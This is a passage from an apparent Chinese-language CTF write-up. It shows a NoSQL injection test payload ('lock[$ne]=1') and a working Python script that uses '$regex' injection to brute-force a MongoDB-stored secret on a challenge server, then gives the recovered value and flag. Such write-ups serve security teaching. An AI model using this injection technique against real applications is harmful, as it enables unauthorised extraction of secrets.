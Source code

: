     lock[$ne]=1&key=2

得到不一样的返回页面，

    Right, but it seemmed the key is not right!!!(╯°□°）╯︵ ┻━┻(╯°□°）╯︵ ┻━┻(╯°□°）╯︵ ┻━┻

从而判断lock变量存在mongodb注入，因lock肯定为一字符串，可以用正则来爆，程序如下：

```python
#!/usr/bin/env python
# coding: utf-8

import requests
import re
import sys


vul_url = 'http://121.40.86.166:23339'


def build_payload(s):
    post_data = {
        'lock[$regex]': r'^%s.*' % s,
        'key': ''
    }
    return post_data


def fuzz_char(s):
    #可加入其他可打印字符
    for c in 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789':
        payload = s + c
        response = requests.post(vul_url, data=build_payload(payload))
        m = re.compile('Right').findall(response.content)

        if m:
            print '[*] Fuzzing: "%s" [ok]' % payload
            fuzz_char(payload)

    print '[*] Found $lock value: "%s"' % s
    sys.exit()

lock = ''
fuzz_char(lock)
```

跑了一会儿，得到最终的lock值：`9cc32bd6`

post数据，得到flag：
    lock=9cc32bd6&key=9cc32bd6

flag：`hctf{Middleware_1s_al3o_Vulnerability!}`

## NormalFile（300pt）
